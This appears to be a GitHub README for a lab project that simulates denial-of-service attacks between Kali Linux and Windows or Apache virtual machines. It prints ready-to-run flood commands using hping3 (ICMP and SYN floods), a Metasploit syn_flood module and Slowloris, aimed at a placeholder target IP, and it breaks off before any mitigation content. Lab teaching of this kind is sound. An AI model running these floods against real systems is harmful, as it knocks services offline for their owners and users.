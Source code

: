 # 🛡️ Simulation of DoS (Denial of Service) Attack

This project demonstrates the simulation of various **Denial of Service (DoS) attacks** in a controlled lab environment for **educational and cybersecurity research purposes**.  
The simulation uses **Kali Linux** as the attacker machine and **Windows 10** (and optional Apache Web Server) as the victim system, running inside **VMware Workstation**.

> ⚠ **Disclaimer**: This project is for **educational purposes only**.  
> Performing DoS attacks on unauthorized systems is illegal and punishable by law. Always conduct tests in a controlled lab environment with permission.

---

## 📌 Objectives
- Understand the working of DoS attacks.
- Simulate attacks using tools like:
  - `hping3`
  - `Metasploit`
  - `Slowloris`
  - `LOIC`
- Analyze the effect of DoS on target systems.
- Implement basic mitigation strategies.

---

## 🛠 Lab Setup

### **Requirements**
- **Hardware:**
  - PC with at least 8 GB RAM & virtualization support
- **Software:**
  - VMware Workstation / VirtualBox
  - Kali Linux ISO
  - Windows 10 ISO
  - Apache HTTP Server (optional, for web server attack simulation)
- **Tools Used:**
  - `hping3`
  - `msfconsole` (Metasploit Framework)
  - `slowloris`
  - `loic`

---

## ⚙️ Steps Performed

### **1. Lab Environment Configuration**
- Install VMware and create two VMs:
  - **Attacker VM**: Kali Linux
  - **Target VM**: Windows 10 or Linux with Apache
- Connect both VMs to the same network (Host-only or NAT).

### **2. Attacks Performed**
#### **a. ICMP Flood Attack (hping3)**
```bash
hping3 -1 --flood -V <target-ip>

#TCP SYN Flood (hping3)
hping3 -S -p 80 --flood -V <target-ip>


#Dos with metasploit
msfconsole
use auxiliary/dos/tcp/syn_flood
set RHOST <target-ip>
set RPORT 80
run

#HTTP DoS with Slowloris
perl slowloris.pl -dns <target-ip> -port 80 -timeout 200 -num 1000

